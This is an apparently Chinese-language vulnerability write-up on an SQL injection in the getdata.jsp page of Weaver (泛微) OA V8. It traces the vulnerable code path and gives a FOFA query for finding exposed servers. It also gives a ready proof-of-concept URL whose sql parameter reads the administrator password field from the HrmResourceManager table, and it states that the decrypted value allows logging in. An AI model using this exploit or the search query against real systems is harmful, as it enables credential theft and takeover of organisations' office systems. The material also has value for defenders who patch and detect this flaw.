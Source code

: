 # 泛微OA getdata.jsp SQL注入漏洞

## 漏洞描述

泛微OA V8 存在SQL注入漏洞，攻击者可以通过漏洞获取管理员权限和服务器权限

## 漏洞影响

```
泛微OA V8
```

## FOFA

```
app="泛微-协同办公OA"
```

## 漏洞复现

在getdata.jsp中，直接将request对象交给

**weaver.hrm.common.AjaxManager.getData(HttpServletRequest, ServletContext) :** 

方法处理

![image-20220209104257902](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091042978.png)

在getData方法中，判断请求里cmd参数是否为空，如果不为空，调用proc方法

![image-20220209104319947](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091043985.png)

Proc方法4个参数，(“空字符串”,”cmd参数值”,request对象，serverContext对象)

在proc方法中，对cmd参数值进行判断，当cmd值等于getSelectAllId时，再从请求中获取sql和type两个参数值，并将参数传递进getSelectAllIds（sql,type）方法中

![image-20220209104335191](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091043319.png)

根据以上代码流程，只要构造请求参数

?cmd= getSelectAllId&sql=select password as id from userinfo;

即可完成对数据库操控

POC

```plain
http://xxx.xxx.xxx.xxx/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%20password%20as%20id%20from%20HrmResourceManager
```

查询HrmResourceManager表中的password字段，页面中返回了数据库第一条记录的值（sysadmin用户的password）

![image-20220209104351654](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091043694.png)解密后即可登录系统

![image-20220209104408461](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091044509.png)
